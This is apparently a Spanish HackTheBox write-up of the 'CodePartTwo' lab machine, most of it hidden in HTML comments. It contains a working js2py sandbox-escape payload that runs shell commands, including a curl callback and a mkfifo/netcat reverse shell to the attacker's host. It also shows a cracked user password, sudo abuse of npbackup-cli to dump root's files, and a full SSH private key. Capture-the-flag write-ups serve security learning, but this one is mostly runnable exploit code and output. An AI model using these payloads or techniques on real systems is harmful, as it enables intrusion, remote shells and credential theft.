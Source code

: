 ```yaml
---
title: 'CodePartTwo Writeup 🔒'
description: 'Es un artículo paso a paso para resolver CodePartTwo en Hackthebox retirada'
tags: ["HackTheBox", "Easy", "Linux", "Actived"]
pubDate: 'Oct 27 2025'
coverImage: './codepart.png'
---
```


En este tutorial, te mostraré cómo logré obtener el control total sobre la maquina "CodePartTwo" en HackTheBox.

## Escaneo Nmap
```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# nmap -sV -sC -A 10.10.11.82
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 15:03 -03
Nmap scan report for 10.10.11.82
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodePartTwo
|_http-server-header: gunicorn/20.0.4
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   484.20 ms 10.10.14.1
2   484.32 ms 10.10.11.82

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.80 seconds
```

## Archivo App.zip
```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# tree -f   
.
├── ./app.py
├── ./instance
│   └── ./instance/users.db
├── ./requirements.txt
├── ./static
│   ├── ./static/css
│   │   └── ./static/css/styles.css
│   └── ./static/js
│       └── ./static/js/script.js
└── ./templates
    ├── ./templates/base.html
    ├── ./templates/dashboard.html
    ├── ./templates/index.html
    ├── ./templates/login.html
    ├── ./templates/register.html
    └── ./templates/reviews.html
6 directories, 11 files
```

![WARNING placeholder](../WARNING.png)

<!-- ```python
let cmd = "curl 10.10.14.16:666/test;";
let hacked, bymarve, n11;
let getattr, obj;

hacked = Object.getOwnPropertyNames({});
bymarve = hacked.__getattribute__;
n11 = bymarve("__getattribute__");
obj = n11("__class__").__base__;
getattr = obj.__getattribute__;

function findpopen(o) {
  let result;
  for (let i in o.__subclasses__()) {
    let item = o.__subclasses__()[i];
    if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
      return item;
    }
    if (item.__name__ != "type" && (result = findpopen(item))) {
      return result;
    }
  }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
console.log(n11);
n11;
``` -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# nc -lvnp 666
listening on [any] 666 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.82] 60682
GET /test HTTP/1.1
Host: 10.10.14.16:666
User-Agent: curl/7.68.0
Accept: */*
``` -->

<!-- ```python
let cmd = "rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 10.10.14.16 1425 > f";
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, null, null, true).communicate()
console.log(n11)
n11
``` -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# rlwrap -cAr nc -lvnp 1425
listening on [any] 1425 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.82] 56676
/bin/sh: 0: can't access tty; job control turned off
$ whoami
app
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
``` -->

<!-- ```bash
$ script -c /bin/bash -q /dev/null
bash-5.0$ cat /etc/passwd | grep -Ev 'sync|false|nologin'
cat /etc/passwd | grep -Ev 'sync|false|nologin'
root:x:0:0:root:/root:/bin/bash
marco:x:1000:1000:marco:/home/marco:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
``` -->

<!-- DESDE ROOT -->
<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# nc -lvnp 666 | base64 -d > users.db               
listening on [any] 666 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.82] 36598
                                                                                                
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# ls
users.db
``` -->

<!-- ```bash
┌──(secbytiago㉿tiaago)-[~/Descargas]
└─$ sudo sqlite3 users.db 
[sudo] contraseña para secbytiago: 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> SELECT * FROM user;
sqlite> SELECT * FROM user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
``` -->
<!-- User : marco
Passwd : sweetangelbabylove -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas]
└─# ssh marco@10.10.11.82
The authenticity of host '10.10.11.82 (10.10.11.82)' can't be established.
ED25519 key fingerprint is SHA256:KGKFyaW9Pm7DDxZe/A8oi/0hkygmBMA8Y33zxkEjcD4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.82' (ED25519) to the list of known hosts.
marco@10.10.11.82's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 27 Oct 2025 07:26:06 PM UTC

  System load:  0.0               Processes:             230
  Usage of /:   57.7% of 5.08GB   Users logged in:       0
  Memory usage: 24%               IPv4 address for eth0: 10.10.11.82
  Swap usage:   0%

-bash-5.0$ whoami
marco
```

```bash
-bash-5.0$ ls
backups  npbackup.conf  user.txt
-bash-5.0$ cat user.txt 
5a8cc1a1cff89188dc3ca1c821762043
``` -->
<!-- ### User Flag
- 5a8cc1a1cff89188dc3ca1c821762043
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

```bash
-bash-5.0$ cat /usr/local/bin/npbackup-cli
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import re
import sys
from npbackup.__main__ import main
if __name__ == '__main__':
    # Block restricted flag
    if '--external-backend-binary' in sys.argv:
        print("Error: '--external-backend-binary' flag is restricted for use.")
        sys.exit(1)

    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

```bash
-bash-5.0$ /usr/local/bin/npbackup-cli -h
usage: npbackup-cli [-h] [-c CONFIG_FILE] [--repo-name REPO_NAME] [--repo-group REPO_GROUP]
                    [-b] [-f] [-r RESTORE] [-s] [--ls [LS]] [--find FIND] [--forget FORGET]
                    [--policy] [--housekeeping] [--quick-check] [--full-check] [--check CHECK]
                    [--prune [PRUNE]] [--prune-max] [--unlock] [--repair-index]
                    [--repair-packs REPAIR_PACKS] [--repair-snapshots] [--repair REPAIR]
                    [--recover] [--list LIST] [--dump DUMP] [--stats [STATS]] [--raw RAW]
                    [--init] [--has-recent-snapshot] [--restore-includes RESTORE_INCLUDES]
                    [--snapshot-id SNAPSHOT_ID] [--json] [--stdin]
                    [--stdin-filename STDIN_FILENAME] [-v] [-V] [--dry-run] [--no-cache]
                    [--license] [--auto-upgrade] [--log-file LOG_FILE] [--show-config]
                    [--external-backend-binary EXTERNAL_BACKEND_BINARY]
                    [--group-operation GROUP_OPERATION] [--create-key CREATE_KEY]
                    [--create-backup-scheduled-task CREATE_BACKUP_SCHEDULED_TASK]
                    [--create-housekeeping-scheduled-task CREATE_HOUSEKEEPING_SCHEDULED_TASK]
                    [--check-config-file]

Portable Network Backup Client This program is distributed under the GNU General Public
License and comes with ABSOLUTELY NO WARRANTY. This is free software, and you are welcome to
redistribute it under certain conditions; Please type --license for more info.

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG_FILE, --config-file CONFIG_FILE
                        Path to alternative configuration file (defaults to current
                        dir/npbackup.conf)
  --repo-name REPO_NAME
                        Name of the repository to work with. Defaults to 'default'. This can
                        also be a comma separated list of repo names. Can accept special name
                        '__all__' to work with all repositories.
  --repo-group REPO_GROUP
                        Comme separated list of groups to work with. Can accept special name
                        '__all__' to work with all repositories.
  -b, --backup          Run a backup
  -f, --force           Force running a backup regardless of existing backups age
  -r RESTORE, --restore RESTORE
                        Restore to path given by --restore, add --snapshot-id to specify a
                        snapshot other than latest
  -s, --snapshots       Show current snapshots
  --ls [LS]             Show content given snapshot. When no snapshot id is given, latest is
                        used
  --find FIND           Find full path of given file / directory
  --forget FORGET       Forget given snapshot (accepts comma separated list of snapshots)
  --policy              Apply retention policy to snapshots (forget snapshots)
  --housekeeping        Run --check quick, --policy and --prune in one go
  --quick-check         Deprecated in favor of --'check quick'. Quick check repository
  --full-check          Deprecated in favor of '--check full'. Full check repository (read all
                        data)
  --check CHECK         Checks the repository. Valid arguments are 'quick' (metadata check)
                        and 'full' (metadata + data check)
  --prune [PRUNE]       Prune data in repository, also accepts max parameter in order prune
                        reclaiming maximum space
  --prune-max           Deprecated in favor of --prune max
  --unlock              Unlock repository
  --repair-index        Deprecated in favor of '--repair index'.Repair repo index
  --repair-packs REPAIR_PACKS
                        Deprecated in favor of '--repair packs'. Repair repo packs ids given
                        by --repair-packs
  --repair-snapshots    Deprecated in favor of '--repair snapshots'.Repair repo snapshots
  --repair REPAIR       Repair the repository. Valid arguments are 'index', 'snapshots', or
                        'packs'
  --recover             Recover lost repo snapshots
  --list LIST           Show [blobs|packs|index|snapshots|keys|locks] objects
  --dump DUMP           Dump a specific file to stdout (full path given by --ls), use with
                        --dump [file], add --snapshot-id to specify a snapshot other than
                        latest
  --stats [STATS]       Get repository statistics. If snapshot id is given, only snapshot
                        statistics will be shown. You may also pass "--mode raw-data" or "--
                        mode debug" (with double quotes) to get full repo statistics
  --raw RAW             Run raw command against backend. Use with --raw "my raw backend
                        command"
  --init                Manually initialize a repo (is done automatically on first backup)
  --has-recent-snapshot
                        Check if a recent snapshot exists
  --restore-includes RESTORE_INCLUDES
                        Restore only paths within include path, comma separated list accepted
  --snapshot-id SNAPSHOT_ID
                        Choose which snapshot to use. Defaults to latest
  --json                Run in JSON API mode. Nothing else than JSON will be printed to stdout
  --stdin               Backup using data from stdin input
  --stdin-filename STDIN_FILENAME
                        Alternate filename for stdin, defaults to 'stdin.data'
  -v, --verbose         Show verbose output
  -V, --version         Show program version
  --dry-run             Run operations in test mode, no actual modifications
  --no-cache            Run operations without cache
  --license             Show license
  --auto-upgrade        Auto upgrade NPBackup
  --log-file LOG_FILE   Optional path for logfile
  --show-config         Show full inherited configuration for current repo. Optionally you can
                        set NPBACKUP_MANAGER_PASSWORD env variable for more details.
  --external-backend-binary EXTERNAL_BACKEND_BINARY
                        Full path to alternative external backend binary
  --group-operation GROUP_OPERATION
                        Deprecated command to launch operations on multiple repositories. Not
                        needed anymore. Replaced by --repo-name x,y or --repo-group x,y
  --create-key CREATE_KEY
                        Create a new encryption key, requires a file path
  --create-backup-scheduled-task CREATE_BACKUP_SCHEDULED_TASK
                        Create a scheduled backup task, specify an argument interval via
                        interval=minutes, or hour=hour,minute=minute for a daily task
  --create-housekeeping-scheduled-task CREATE_HOUSEKEEPING_SCHEDULED_TASK
                        Create a scheduled housekeeping task, specify hour=hour,minute=minute
                        for a daily task
  --check-config-file   Check if config file is valid
``` -->
<!-- 
```bash
-bash-5.0$ cat npbackup.conf 
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
``` -->

<!-- cambio /home/app/app/ a /root/.ssh/ -->

<!-- ```bash
-bash-5.0$ sudo /usr/local/bin/npbackup-cli -c npbackup.conf -b -f
2025-10-27 19:45:40,985 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-10-27 19:45:41,015 :: INFO :: Loaded config 7BD385E4 in /home/marco/npbackup.conf
2025-10-27 19:45:41,027 :: INFO :: Running backup of ['/root/.ssh/'] to repo default
2025-10-27 19:45:42,223 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excluded_extensions
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/generic_excluded_extensions' not found
2025-10-27 19:45:42,224 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excludes
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/generic_excludes' not found
2025-10-27 19:45:42,224 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/windows_excludes
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/windows_excludes' not found
2025-10-27 19:45:42,224 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/linux_excludes
2025-10-27 19:45:42,224 :: ERROR :: Exclude file 'excludes/linux_excludes' not found
2025-10-27 19:45:42,225 :: WARNING :: Parameter --use-fs-snapshot was given, which is only compatible with Windows
no parent snapshot found, will read all files

Files:           2 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repository: 4.466 KiB (4.188 KiB stored)

processed 2 files, 3.094 KiB in 0:00
snapshot 9ab7ee40 saved
2025-10-27 19:45:43,502 :: INFO :: Backend finished with success
2025-10-27 19:45:43,504 :: INFO :: Processed 3.1 KiB of data
2025-10-27 19:45:43,504 :: ERROR :: Backup is smaller than configured minmium backup size
2025-10-27 19:45:43,504 :: ERROR :: Operation finished with failure
2025-10-27 19:45:43,505 :: INFO :: Runner took 2.479463 seconds for backup
2025-10-27 19:45:43,505 :: INFO :: Operation finished
2025-10-27 19:45:43,512 :: INFO :: ExecTime = 0:00:02.529448, finished, state is: errors.
``` -->

<!-- ```bash
-bash-5.0$ sudo /usr/local/bin/npbackup-cli -c npbackup.conf -f --dump /root/.ssh/id_rsa | tee id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
``` -->
<!-- 
```bash
-bash-5.0$ ls
backups  id_rsa  npbackup.conf  user.txt
``` -->

<!-- ```bash
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# chmod 600 id_rsa
                                                                                                
┌──(root㉿tiaago)-[/home/secbytiago/Descargas/app]
└─# ssh -i id_rsa root@10.10.11.82
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 27 Oct 2025 07:52:40 PM UTC

  System load:  0.0               Processes:             234
  Usage of /:   57.8% of 5.08GB   Users logged in:       0
  Memory usage: 25%               IPv4 address for eth0: 10.10.11.82
  Swap usage:   0%


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Oct 27 19:52:41 2025 from 10.10.14.16
root@codeparttwo:~# 
``` -->

<!-- ```bash
root@codeparttwo:~# ls
root.txt  scripts
root@codeparttwo:~# cat root.txt 
e2eeb890691e626b964ad13133445906
``` -->

<!-- ### Root Flag
- e2eeb890691e626b964ad13133445906 -->

<!-- https://blog.csdn.net/qq_43007452/article/details/150579258 -->